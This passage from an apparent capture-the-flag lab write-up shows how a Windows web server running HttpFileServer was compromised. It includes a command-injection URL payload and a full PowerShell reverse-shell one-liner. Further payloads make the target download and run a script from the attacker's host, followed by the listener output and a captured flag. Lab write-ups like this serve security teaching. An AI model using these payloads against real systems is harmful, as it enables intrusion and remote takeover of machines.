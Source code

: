 I can also run it with PowerShell:

```
http://10.10.10.8/?search=%00{.+exec|powershell.exe+/c+ping+-n+1+10.10.14.10.}
```

### Shell

Given the age of this host and the easy rating, I likely don’t have to worry about Defender / AMSI, so I’ll grab a PowerShell script from [Nishang](https://github.com/samratashok/nishang). I’ll copy the **`Invoke-PowerShellTcpOneLine.ps1`**, cut the comments, and update the IP and port:

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

I’ll save a copy of that as `rev.ps1` (just to make an easier url I’m about to request). Then I’ll start a Python web server, and visit:

```
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').}
```

That triggers Optimum to reach out and download `rev.ps1` (interestingly again four times), which shows up at the web server:

```
oxdf@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [13/Mar/2021 20:38:04] "GET /rev.ps1 HTTP/1.1" 200 -
```

When the file is returned, it is executed by `IEX`, short for `Invoke-Expression`, and the shell connects back to my listening `nc` (for some reason on this shell the prompt only shows up after the first command):

```
oxdf@parrot$ sudo rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49179
whoami
optimum\kostas
PS C:\Users\kostas\Desktop>
```

There’s a small typo in the flag name, but I can grab it:

```
PS C:\Users\kostas\Desktop> cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
d0c39409d7b994a9a1389ebf38ef5f73
```
